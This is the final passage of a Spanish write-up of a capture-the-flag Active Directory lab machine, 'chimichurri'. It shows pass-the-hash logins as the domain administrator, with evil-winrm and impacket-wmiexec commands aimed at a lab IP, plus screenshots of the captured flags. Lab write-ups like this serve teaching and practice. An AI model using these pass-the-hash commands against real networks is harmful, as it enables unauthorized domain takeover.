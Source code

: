  Ahora solo nos queda conectarnos con evil-winrm, psexec o wmiexec para emplear Pass the hash. Al usar psexec sucede algo, siempre ingresa como NT Authority System y no como Admin del dominio, con wmiexec si funciona correctamente.

```bash
evil-winrm -i 192.168.179.144 -u 'Administrador' -H 'hash'
```

Una vez obtenemos acceso podemos visualizar las flags y dar por terminada la maquina.

![adminuser.png](/assets/images/thl-writeup-chimichurri/adminuser.png)

![pwned.png](/assets/images/thl-writeup-chimichurri/pwned.png)

wmiexec

```bash
impacket-wmiexec chimichurri.thl/Administrador@192.168.179.144 -shell-type powershell -hashes :hash
```

![wmiexec.png](/assets/images/thl-writeup-chimichurri/wmiexec.png)

De esta forma tenemos 2 opciones para ingresar a la maquina, también con el usuario que creamos podíamos solo cambiar el pass del usuario administrador para ganar acceso a la maquina. 

¡Gracias por leer hasta aquí! Espero que este writeup te haya sido útil para comprender mejor los pasos para enumerar un AD y para resolver esta máquina.  ¡Nos vemos en el próximo reto, y sigue hackeando con ética!
